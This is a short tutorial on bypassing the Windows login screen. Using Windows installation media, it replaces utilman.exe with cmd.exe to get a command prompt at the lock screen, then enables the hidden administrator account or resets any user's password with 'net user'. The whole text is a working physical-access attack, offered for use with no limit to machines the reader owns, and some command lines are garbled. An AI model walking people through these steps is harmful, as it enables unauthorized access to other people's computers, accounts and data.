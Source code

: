 A windows computer has a pretty weak security, you can bypass the password prompt screen with a trick. 

What you need is an usb with a windows-10 installation, you start the machine and enter in the boot option menu by pressing the right button (F-something, most of the time). 

You enter in the special process of windows-10 installation and have multiple options : choose Troubleshoot, and then command prompt.

```shell
c:
cd system 32
copy utilman.exe \
copy cmd.exe utilman.exe
y
cmd.exe narrator.exe
y
```

Restart the computer.
Click the easy access button in the bottom-right of your screen.
Again, a command-prompt screen :

```shell
net user administrator /active:yes
```
Restart the pc to enable the account.
You have now a new account, administrator, and full access to the computer without knowing it's password.
You can also reset the password of the account, go again in the console-access :
```shell
net user #nameUser #passwordWanted
exit
```

Enter the password that you have selected : welcome to the computer.

## References

[Getting Into Any Windows Computer Without The Password](https://www.youtube.com/watch?v=itMECROHFQQ)